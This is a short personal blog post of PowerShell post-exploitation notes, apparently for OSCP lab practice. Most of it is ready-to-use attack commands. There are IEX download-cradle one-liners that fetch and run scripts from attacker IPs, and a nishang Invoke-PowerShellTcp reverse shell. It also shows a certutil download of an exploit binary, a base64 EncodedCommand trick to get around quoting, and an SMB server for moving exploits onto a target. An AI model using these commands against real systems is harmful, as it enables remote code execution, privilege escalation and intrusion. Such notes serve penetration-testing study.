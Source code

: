 ```yaml
---
# Documentation: https://sourcethemes.com/academic/docs/managing-content/

title: "Powershell Post exploitation"
subtitle: ""
summary: "Some post exploitation PS notes"
authors: []
tags: []
categories: []
date: 2020-08-28T22:30:35+02:00
lastmod: 2020-08-28T22:30:35+02:00
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal points: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight.
image:
  caption: ""
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```



## PowerShell Reverse Shell
 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

Note:
From a 32-bit PowerShell session, to launch a 64-bit PowerShell session, use:
```
C:\Windows\SysNative\WindowsPowerShell\v1.0\PowerShell.exe
```
From a 64-bit PowerShell session, to launch a 32-bit PowerShell session, use:
```
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\PowerShell.exe
```
## PS oneliner nishang
```cp /mnt/hgfs/OSCP/tools/privesc/win/nishang/Shells/Invoke-PowerShellTcp.ps1 nishang.ps1
powershell.exe -NoProfile -ExecutionPolicy unrestricted -Command IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.169:3001/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.169 -Port 3002
IEX(New-Object Net.WebClient).downloadString('http://192.168.19.37/rev.ps1')

````
## from within shell
echo iex(new-object net.webclient).downloadstring('http://192.168.19.37/MS16-135.ps1') | powershell -nop -
IEX(New-Object Net.WebClient).downloadString('http://192.168.19.37/powerup.ps1')

## Other PS commands
```
powershell "IEX(New-Object Net.WebClient).downloadString('http://192.168.19.37/nishang.ps1')
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.19.37/Invoke-PowerShellTcp.ps1'
certutil.exe -urlcache -split -f "http://192.168.19.37/cve.exe" c:\Users\offsec\Documents\2.exe
```
### If " " gives issues -->  
```echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.28/sherlock.ps1')" | iconv --to-code UTF-16LE | base64 -w 0

"PowerShell -EncodedCommand base64 string"
```

## Windows exploit suggester
```python windows-exploit-suggester.py --update
Feed it w/ your systeminfo dump python windows-exploit-suggester.py --database 2017-11-15-mssb.xls --systeminfo ../systeminfo.txt
```

## PS enumeration

Show full path of files:
```
gci -recurse . | select fullname
```


## Helpfull resources

https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/  
Checklist <https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md>


for i in $(cat text);do cp -r $i /mnt/hgfs/OSCP/testexam/10.11.1.49/exploit/smb ;done;
cd folder
impacket-smbserver exp .
xcopy \\192.168.19.37\exp\smb tester\smb /i /s
xcopy \\192.168.19.37\exp\cve tester\cve /i /s

